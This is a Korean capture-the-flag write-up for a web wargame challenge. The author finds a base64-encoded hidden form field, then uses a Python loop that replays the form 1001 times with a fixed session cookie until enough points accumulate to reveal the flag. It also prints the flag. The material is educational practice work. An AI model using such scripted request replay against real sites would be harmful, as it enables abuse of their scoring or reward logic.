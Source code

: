 딱 보니 base64인것 같다.
Submit 버튼이 없으니 일단 F12를 누르고 Console탭에 들어간 후 다음을 실행시키자.

```javascript
document.querySelector('form').submit();
```

포인트가 1이 추가 되었다. 그러면 이걸 계속 반복하면 될것 같지만, 아쉽게도 Console에서는 불가능하니 python으로 해결하자.

PHP 세션ID도 필요 할것 같으니 쿠키에 넣고 돌려주자

```python
import requests
from base64 import b64encode

for i in range(1001):
    req = requests.post('http://wargame_sec.kongju.ac.kr/web/find/prob.php', data={'HaHa': b64encode(str(i).encode())}, cookies={'PHPSESSID': 'jcrcp6kp5ksl2shh1g6b2esei3'})

    if i != 1000:
      print(req.text[0:150])
    else:
      print(req.text)
```

```
Flag is W1nn3r_C0ngr4tur4t1on</br>Prize - Point 1000 : Flag</br>Your Point : 1000<form method='POST' action='prob.php'><input type='hidden' name='HaHa
Prize - Point 1000 : Flag</br>Your Point : 1001<form method='POST' action='prob.php'>
```

```
FLAG: W1nn3r_C0ngr4tur4t1on
```

### Web1_Project3 (200pt)

![](img/Web1_Project3.png)
